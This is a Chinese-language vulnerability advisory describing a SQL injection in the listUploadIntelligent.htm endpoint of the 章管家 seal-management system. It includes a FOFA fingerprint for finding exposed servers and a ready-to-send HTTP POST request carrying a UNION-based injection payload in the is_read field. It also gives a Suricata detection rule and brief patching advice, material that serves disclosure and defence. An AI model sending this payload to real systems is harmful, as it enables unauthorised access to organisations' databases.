

# 章管家 listUploadIntelligent.htm 存在SQL注入漏洞

章管家 listUploadIntelligent.htm 存在SQL注入漏洞

# 影响版本

当前已发所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**  body="章管家登录-公章在外防私盖"

**POC/EXP：**

**step1**  sql注入

```
POST /app/message/listUploadIntelligent.htm?token=dingtalk_token HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/157.0.0.0 Safari/537.36
Content-Length: 94
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br

person_id=1&unit_id=l&pageNo=1&is_read=-1 union select MD5(123456),2,3,4,5,6,7,8,9,10,11,12 --
```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"章管家 - listUploadIntelligent.htm is_read SQL注入漏洞 (UNION注入)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/app/message/listUploadIntelligent.htm"; fast_pattern;
        content:"token="; nocase; distance:0;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"is_read="; nocase;
        content:"union"; nocase; distance:0; within:50;
        content:"select"; nocase; distance:0; within:20;
        content:"MD5"; nocase; distance:0; within:50;
    metadata:
        service http,
        affected_product "章管家",
        vulnerability_type "SQL Injection (Union-based)",
        severity "high";
    classtype:web-application-attack;
    sid:1000824;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
